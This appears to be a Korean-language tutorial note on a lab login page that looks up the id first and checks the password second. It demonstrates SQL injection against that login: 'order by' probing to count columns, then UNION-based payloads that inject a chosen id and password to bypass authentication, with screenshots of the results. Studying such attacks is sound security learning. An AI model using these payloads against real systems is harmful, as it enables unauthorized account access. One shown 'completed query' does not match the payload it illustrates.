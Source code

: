 <br><br>
#### 2. 식별과 인증을 따로 할 때

>로그인방법
1.  유저가 입력한 id와 `sql 질의문`을 통해 id 정보와 비밀번호 정보를 불러온다.<br>`select id,PASSWORD from members where id='아이디' `
2. 입력받은 비밀번호와 db 에서 불러온 비밀번호를 비교하여 일치하는지 확인한다.
3. 일치하면 db 에서 불러온 id 정보를 통해 나머지 유저 정보도 불러온다.<br>`select * from members  where id='db에서 불러온 id정보';` 

>로그인 코드<br><script src="https://gist.github.com/MinGyu2/7714a6942bb2726177f0dcbfef5caaa7.js"></script>



>정상적인 로그인<br>
![Pasted image 20230419141842](https://user-images.githubusercontent.com/31990118/232985187-5a0d4782-8d8a-4f53-bdd6-c6e636026a14.png)<br>![Pasted image 20230419141903](https://user-images.githubusercontent.com/31990118/232985264-660444cd-f648-4933-8b3f-fb4b7d6e91c6.png)



>union을 이용한 우회 공격 전 정확한 **컬럼 수** 찾기
- `order by` 를 이용한다.
- `user2' order by 2 -- ` 로그인 성공<br>![Pasted image 20230419141937](https://user-images.githubusercontent.com/31990118/232985373-2f1890c3-e762-43ce-a675-28c7904f68ed.png)<br>![Pasted image 20230419141951](https://user-images.githubusercontent.com/31990118/232985437-96a4348c-56d8-4fe1-bd1c-9628a2324d0c.png)
- `user2' order by 3 -- ` 로그인 실패<br>![Pasted image 20230419142020](https://user-images.githubusercontent.com/31990118/232985581-b986925c-674e-45f9-a0a3-2d13dedb546d.png)<br>![Pasted image 20230419142050](https://user-images.githubusercontent.com/31990118/232985629-99e7085d-df98-4268-b513-18ce477eb459.png)
- 즉 컬럼의 수가 2개인 것을 확인할 수 있다.

<br>
>공격 방법

- **union + 주석 사용**

| | 입력|
| --- | ---|
|id| `x' union select 'user2','user2' from dual -- `|
|pwd| `user2`|

- 서버에서 완성된 쿼리문<br>
`select id,PASSWORD from members where id='x' union select 'user2','user2' from dual where '1'='1'`<br>![Pasted image 20230419142133](https://user-images.githubusercontent.com/31990118/232985841-7099d8b7-0441-4a9f-a001-5568d8614c67.png)<br>![Pasted image 20230419142152](https://user-images.githubusercontent.com/31990118/232985915-ea61d625-85cd-4bca-9e58-dd7836dc3101.png)


<br>
- **union + where 사용**

| | 입력|
| --- | ---|
|id| `x' union select 'user2','user2' from dual where '1'='1`|
|pwd|  `user2`|

